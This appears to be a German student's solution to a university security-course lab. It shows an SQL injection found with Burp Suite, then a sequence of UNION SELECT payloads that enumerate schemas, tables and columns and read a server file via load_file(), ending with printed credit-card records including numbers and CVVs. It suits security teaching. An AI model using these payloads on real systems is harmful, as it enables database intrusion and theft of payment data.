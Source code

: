 # Lösung zur praktischen Aufgabe im Modul Datenschutz und Datensicherheit bei Herrn Prof. Dr. Wojciech Dabrowski

1. Erster Schritt bestand darin die Webseite auf Schwachstellen zu untersuchen. Zuerst schien mir der Login verdächtig, dort wurden allerdings keine Injektion notwendige Symbole erlaubt.

2. Mit BurpSuite konnte ich bei manueller Eingabe von `'` einen error in dem Feld für die Ausgabe der immobilien und damit eine für SQL injection mögliche Schwachstelle erkennen. BurpSuite besitzt eine "Repeater" Funktion mit der man requests senden kann. Es ist möglich die reqeuests manuell zu manipulieren.

3. `' UNION SELECT 1, 2, 3, 4 #` ist die einzige Injektion für das herausfinden der Anzahl der Datenbanken, die keine Fehlermeldung gibt, deswegen muss es vier Datenbanken geben.

4. `' UNION SELECT DISTINCT table_schema, 0, 0, 0 from information_schema.tables #` zeigt alle Namen der Datenbanken (information_schema, performance_schema, dre, mysql).

5. `' UNION SELECT DISTINCT table_name, 0, 0, 0 from information_schema.tables WHERE table_schema="dre" #` zeigt die Tabellen der jeweiligen Datenbanken. Hierbei habe ich die Namen von allen Schemas angeschaut. "Paymentfiles" klang am ehesten nach Kreditkarten Informationen.

6. `' UNION SELECT DISTINCT column_name, 0, 0, 0 from information_schema.columns WHERE table_schema="dre" AND table_name="paymentfiles" #` zeigt die Spalten der Tabelle "paymentfiles" an. Dabei gibt es die relevante Spalte "location".

7. `' UNION SELECT 0, location, 0, 0 from paymentfiles #` enthält "/var/www/creditcarddata_details.csv".

8. Das auslesen der Datei geht mit `' UNION SELECT 0, load_file('/var/www/creditcarddata_details.csv'), 0, 0 #`. Die Datei enthält die gesuchten Kreditkarten Informationen: Emily,Cook,4024382370464097,159,07/2026,127000.00
   Otto,McGuire,4949539433727040,717,08/2026,3477000.00
   John,Warren,4472395893843453,456,02/2026,549999.99
   Adam,Holloway,5218545241887612,251,11/2027,22500.00
   Paul,Sullivan,5544369074197162,329,08/2027,570200.00
   Otto,Boone,5142241829728565,955,01/2027,250.00
